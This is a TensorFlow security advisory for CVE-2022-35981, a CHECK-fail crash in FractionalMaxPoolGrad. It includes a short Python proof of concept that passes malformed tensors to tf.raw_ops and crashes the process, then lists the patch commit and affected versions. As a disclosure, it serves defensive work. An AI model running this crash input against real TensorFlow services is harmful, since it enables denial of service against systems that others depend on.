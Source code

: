 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-110.md
## TFSA-2022-110: `CHECK` fail in `FractionalMaxPoolGrad`

### CVE Number
CVE-2022-35981

### Impact
`FractionalMaxPoolGrad` validates its inputs with `CHECK` failures instead of with returning errors. If it gets incorrectly sized inputs, the `CHECK` failure can be used to trigger a denial of service attack:
```python
import tensorflow as tf

overlapping = True
orig_input = tf.constant(.453409232, shape=[1,7,13,1], dtype=tf.float32)
orig_output = tf.constant(.453409232, shape=[1,7,13,1], dtype=tf.float32)
out_backprop = tf.constant(.453409232, shape=[1,7,13,1], dtype=tf.float32)
row_pooling_sequence = tf.constant(0, shape=[5], dtype=tf.int64)
col_pooling_sequence = tf.constant(0, shape=[5], dtype=tf.int64)
tf.raw_ops.FractionalMaxPoolGrad(orig_input=orig_input, orig_output=orig_output, out_backprop=out_backprop, row_pooling_sequence=row_pooling_sequence, col_pooling_sequence=col_pooling_sequence, overlapping=overlapping)
```

### Patches
We have patched the issue in GitHub commit [8741e57d163a079db05a7107a7609af70931def4](https://github.com/tensorflow/tensorflow/commit/8741e57d163a079db05a7107a7609af70931def4).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
